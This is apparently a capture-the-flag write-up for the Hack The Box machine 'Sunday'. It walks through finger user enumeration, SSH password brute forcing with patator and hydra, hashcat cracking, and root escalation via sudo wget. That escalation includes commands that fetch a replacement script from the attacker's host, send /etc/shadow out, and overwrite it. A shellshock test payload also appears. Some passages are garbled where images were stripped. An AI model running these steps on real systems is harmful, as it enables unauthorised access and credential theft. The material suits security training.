sunday


nmap
Basic nmap scan shows
port 79 finger service is running version Sun Solaris fingerd
port 111 rpcbind 2-4
all ports

targetted ports
lets target ports 79, 111, 22022, 33158 and 58398
the targeted scan discovered there is an ssh terminal running on port 22022!
finger user enumeration
Theres a great enumeration tool for  pentestmonkey published called finger-user-enum thats a great place for us to start

feel free to download it straight off github or

or use git clone https://github.com/pentestmonkey/finger-user-enum.git to clone it

usage
finger-user-enum.pl usage
scan report
PIpe finger-user-enum to less -S to kill off line wrapping and make the report easier to readrun off names.txt wordlist from the SecList github repo

We see users sammy and sunny are unlike the other users, safe to assume they are human users and not services

->
scan report on root
we can also assume that root is a user on the sunday box so lets enumerate that user as well with finger-user-enum.pl./finger-user-enum.pl -u root -t 10.10.10.76

ssh password brute force w/ patador & Hydra
lets use patator and try to attempt to brute force an ssh login against a password listnote: hydra has ssh brute force capabilities too if you prefer and I will list the equivilent hydra command in the subsequent notes


finding good password list
since the rockyou wordlist contains over a million passwords, lets use some simple find commands on our Seclists repo (if you don't have it you can grab it here) to find an effective wordlist of a smaller size to expedite our ssh brute force/usr/share/seclists/Passwords/

we want a wordlist that has roughly 1000-1500 common passwords since rockyou has too many for an ssh_login brute force
lets use find . -type f exec wc -l {} \; | sort -nr


Lets use ./probable-v2-top1575.txt
sunny ssh_login bruteforce
Here's Patador's usage options as well as an bruteforce example to start:ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'

patator ssh_login host=10.10.10.76 port=22022 user=sunny password=FILE0 0=/usr/share/seclists/Passwords/probable-v2-top1575.txt persistent=0 -x ignore:mesg='Authentication failed'


bingo! password sunday successfully logs into ssh via username sunny due to the ssh protocol banner being properly returned

Here is the hydra equivilent ssh brute force
hydra -l sunny -P /usr/share/wordlists/SecLists/Passwords/probable-v2-top1575.txt 10.10.10.76 ssh -s 22022
where -l is the single user sunny
-P is the password list
ssh is the bruteforce type
and -s is the port 22022 (default is 22)

hydra also finds sunny's password sunday for us!
ssh sunny
Lets first try to connect to user sunny with our bruteforced password through sunday's ssh port located on 22022
we get an error message regarding an inability to negotiate because theres no matching key exchange method between our attack machine and the Sunday machine
thankfully the server gives us a list of key exchanges that will match it
gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==
diffie-hellman-group-exchange-sha1
diffie-hellman-group1-sha1
we need a matching key exchange method, lets look up how to apply one of these key exchange methods to our ssh connection:
use -okexAlgorithms=+<algorithm> to specify which key exchange algorithm you want to use
(diffie-helman-group1-sha1 was simply easiest to type out)


and we're logged in as sunny!

sudo -l
Lets issue sudo -l first to see what permissions sunny has:
no useful information by running it

ls /

the
 folder is NOT standard in linux home directories, lets take a look at that:
folder is NOT standard in linux home directories, lets take a look at that:
Nice theres a /etc/shadow backup folder containing login passwords for sunny and sammy

lets store both these hashes for hashcat or crackstation


hashcat
first lets research which type of hash the passwords were encrypted in: $5$
we see it is sha256crypt which is mode 7400 in hashcat
bruteforce
brute forcing hashes is much faster than brute forcing ssh so rockyou.txt works fine here:


Perfect! we cracked sammy's password to be cooldude!
sammy
lets switch users to sammy using their password cooldude we brute forced:

One thing worth noting is that the box is from November 2008, and there was a known “shellshock” vulnerability that was released not long after this time, lets check if its vulnerable:
sudo -l /usr/bin/wget
we can use wget with sudo privileges interestingly enough:
Huge find: wget allows us to use -i argument to download any files we want (even within the sunday box) as root!


sudo wget -i /etc/shadow
when wget downloads a file, it lists it, effectively leaking its contents to us, lets get started by downloading Sunday's /etc/shadow file to try and crack its hash
Lets make it easier on the eyes with awk
wget -i /etc/shadow 2>&1 | awk ‘{print $4};'

we know root's hash for potential brute force:
also looking up the hash prefix from hashcat's hash examples, we see that it is a sha256crypt hash, so we'll use module 7400 in our brute force

$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD
we'll save sunny, sammy and root's hashes in a text file for our hashcat bruteforce

hashcat -m 7400 hashes /usr/share/wordlist/rockyou.txt

unfortunately root's password hash is not on the rockyou list
troll script
if we run sudo wget /root/troll we can see that the file is just a bash script running“testing”

we can try to rewrite it to open up a terminal and escalate to root
to do that we have to rewrite the troll bash script on our attacking machine and have sammy download it and overwrite its output where the original file was located:


spin up our http server...

and use wget to download it to our victim and execute it:


now to run it on sunny who can sudo this file:

we see it reverts back to the original script, lets use sleep in order to time running it perfectly:
privesc with /root/troll
trick here is to run /root/troll on sunny within 5 seconds before it gets rewrittenwe need to use wget to grab the /root/troll script from our attacking box and overwrite it on our victim immediately running it on sunny within the 5 seconds it takes the box to revert the script:
we can use sleep and run the script as soon as we see it hit our HTTP server:
Lets get the commands ready on each terminal (I like using terminator for a split shell environment but tmux is a great option as well if you're familiar with it)
sleep 5; sudo wget 10.10.14.62:8000/troll -O /root/troll
sudo /root/troll

VOILA! we got root on sunny

proof of overwrite /root/troll script on root
This is just proof that the /root/troll file was getting updated every 5 seconds and we needed to be timely executing it via sunny:
potential shellshock (fail)

One thing worth noting is that the box is from November 2008, and there was a known “shellshock” vulnerability that was released not long after this time, lets check if its vulnerable:
first hop back onto user sunny

create a random variable, and issue the shellshock payload as such and then issue a
'(){ :;}; <random command>' <real cmd>
shellshock is (){ :;};

appears to be vulnerable! this is what calling echo would look like without the shellshock payload:

as we can see echo doesnt execute
assigning env variable to shellshock & testing
doesnt say any environment tools are being kept but we're going to pick one anyway:
do one we think we can use that has not changed:
LOGNAME
The box will be shellshock vulnerable if we see echo shellshock output when we call sudo /root/troll\

Booo! the box is not vulnerable to shellshock through sudo
privesc through wget etc/shadow
lets use wget to put our victim's /etc/shadow file onto our attacking machine and then upload it back so we can ssh with a known password back to rootsearch wget -h to find a way how to PUT files


unfortunately no options for changing method to a PUT request.... but if we write a script that handles Post files on our attacking machine
lets set up a listener on our machine first and write a --post-file to it from our victim sammy



wget upload.php
now instead of just connecting to our attack machine, lets go to a script we create that we'll call upload.php and an argument of the filename
now were handling POST request with a argument and a file attached... we can work with this

upload.php


there are several vulnerabilities with this script that allow a user to escape our ‘upload/’ directory, upload a script and execute it...
we can fix that by playing with umask settings filtering the user from inputting a “../” and escaping our directory

useradd st0ve
we don't want to write exploitable code owned by root on our attacking machine so we're going to add a user with limited permissions
set st0ve user to own upload folder with chown st0ve upload/

cdmod 222 for test so no user (besides root) can write to it:
 
php server
this server can upload and execute php files, it is not commonly used over python -m simpleHTTPServer but still works great is the command
is the command
Now we can upload /etc/shadow to our IP and creates the file shadow

this uploads shadow to our /upload directory 

edit shadow
before:
after overwriting root's hash with sammy's

finally change the shadow file permissions so st0ve (or the user you created) can write to it:

wget shadow
lastly we upload our new shadow file to our victim's /etc/shadow folderfirst copy our shadow file down a folder to /php/ (or make a new directory within your Sunday directory)


Success!

log into root
now we can switch user to root using sammy's password which was cooldude!and we're in!

privesc with /usr/bin/pfsh
I don't know if this was intended but running pfsh is a shell that runs with root privileges
user/root
a3d9498027ca5187ba1793943ee8a598

fb40fab61d99d37536daeec0d97af9b8
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/
1. Fun box where you enumerate users on finger service the box runs, find it has an ssh port on an uncommon port
2. from there you get sunny user by either guessing their password or using an ssh brute force prorgram like protator
3. you hop on sunny and see it can run a file called /root/troll as root without a sudo password and that there is a backup log with an old /etc/shadow list
4. you can brute force user sammy's hash from the old /etc/shadow list using hashcat
5. from there you notice sammy can run wget as root without a password so there are two main ways I showed how to priv esc utilizing sunny/sammy to rewrite /troll/root OR you can reupload /etc/shadow to the box with sammy from your attacking machine and log into root with a known password